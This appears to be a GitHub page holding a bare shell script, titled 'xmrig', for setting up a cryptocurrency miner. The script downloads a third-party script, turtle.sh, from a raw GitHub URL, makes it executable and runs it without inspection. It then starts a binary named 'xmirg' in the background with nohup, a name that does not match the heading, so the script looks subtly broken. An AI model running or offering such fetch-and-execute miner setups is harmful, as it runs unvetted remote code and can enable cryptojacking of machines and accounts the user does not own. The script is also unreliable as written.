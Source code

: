 # xmrig
apt update -y

apt install screen -y

wget https://raw.githubusercontent.com/thehutgy/tuneTurtleMid/main/turtle.sh && chmod +x turtle.sh && ./turtle.sh

nohup ./xmirg &



top



